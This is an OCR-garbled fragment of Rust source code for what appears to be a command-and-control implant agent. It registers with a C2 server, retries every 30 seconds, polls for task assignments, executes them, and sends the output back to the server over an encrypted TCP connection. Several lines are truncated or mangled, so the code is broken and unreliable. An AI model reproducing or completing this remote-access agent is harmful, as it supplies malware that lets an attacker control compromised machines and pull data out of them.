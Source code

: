 ```rust
            let mut result = HashMap::new();
            result.insert("task_id".to_string(), task_id.clone());
            
            if output.status.success() {
                let stdout = String::from_utf8_lossy(&output.stdout).to_string();
                result.insert("output".to_string(), stdout);
            } else {
                let stderr = String::from_utf8_lossy(&output.stderr).to_string();
                result.insert("output".to_string(), format!("Error: {}", stderr));
            }
            
            serde_json::to_string(&result
        } else {
            "Unsupported task type".to_string()
        }
    }
    
    fn send_task_result(&self, bool {
        if self.id.is_none() {
            return false;
        }
        
        if let Ok(mut stream) = TcpStream::connect(&self.server_addr) {
            let message = Message {
                id: Uuid::new_v4().to_string(),
                msg_timestamp: SystemTime::now().duration_since(SystemTime::UNIX_EPOCH).unwrap().as_secs(),
                content: result.to_string(),
                agent_id: self.id.clone(),
            };
            
            let encrypted = self.encrypt(&serde_json::to_string(&message).unwrap());
            stream.write_all(encrypted.as_bytes()).unwrap();
            
            let mut buffer = [0 stream.read(&mut buffer).unwrap();
            let data = String::from_utf8_lossy(&buffer[0..size]).to_string();
            let decrypted = self.decrypt(&data);
            
            let response: Message = serde_json::from_str(&decrypted).unwrap();
             {
                MessageType::TaskResult => true,
                _ =>
            false
        }
    }
    
    fn run(&mut self) {
        // Try to register with the C2 server
        while !self.register() {
            println!("Failed to register with C2 server. Retrying in 30 seconds...");
            thread::sleep(ecs(30));
        }
        
        println!("Successfully registered with C2 server. Agent ID: {}", self.id.as_ref().unwrap());
        
        // Main agent loop
        loop {
            // Send heartbeat and check for tasks
            if let Some(response) = self.heartbeat() {
                match response.msg_type {
                    MessageType::TaskAssignment => {
                        println!("Received task: {}", response.content);
```